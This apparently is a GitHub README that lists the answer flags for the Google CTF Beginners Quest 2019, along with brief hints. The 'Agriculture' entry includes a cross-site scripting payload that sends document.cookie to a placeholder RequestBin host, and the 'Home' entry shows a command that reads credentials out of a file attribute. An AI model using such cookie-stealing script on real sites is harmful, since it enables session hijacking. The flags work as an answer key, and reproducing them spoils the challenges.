 These are the flags from Google Beginners quest 2019 competition.

### 1. Space-Time coordinates
`CTF{welcome_to_googlectf}`

### 2. Satellite
`CTF{4efcc72090af28fd33a2118985541f92e793477f}`

### 3. Home
>cmd:- <p >getfattr --only-values -n user.FILE0 credentials.txt > output

`CTF{congratsyoufoundmycreds}`

### 4. Work Computer challenge
`fold` command

CTF{4ll_D474_5h4ll_B3_Fr33}                   


### 5. Agriculture
>cmd:- <p> <script>document.location='REQUESTBIN_LINK'+document.cookie</script>

`CTF{8aaa2f34b392b415601804c2f5f0f24e}`


### 6. Stop GAN
`CTF{Why_does_cauliflower_threaten_us}`


### 7* FriendSpaceBook
>  http://emoji-t0anaxnr3nacpt4na.web.ctfcompetition.com/humans_and_cauliflowers_network/ 

`CTF{Peace_from_Cauli!}`


### 8* Drive to the target

`CTF{Who_is_Tardis_Ormandy}`		         


### Extras:-
`Ad:- CTF{9e796ca74932912c216a1cd00c25c84fae00e139}`



<img src="Screenshot from 2019-06-25 16-23-32.png">









